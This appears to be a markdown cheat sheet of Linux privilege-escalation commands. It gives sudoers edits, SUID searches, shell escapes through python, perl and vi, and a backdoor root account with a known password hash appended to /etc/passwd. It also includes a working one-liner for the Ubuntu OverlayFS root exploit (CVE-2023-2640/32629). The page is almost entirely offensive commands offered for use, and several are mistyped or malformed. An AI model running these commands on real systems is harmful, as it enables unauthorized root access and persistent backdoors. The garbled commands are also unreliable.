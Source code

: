Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---

List if use can execute a cmd as root

```shell
sudo -l
```

```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

---
Shell SUDO / escape:

---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```shell
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```
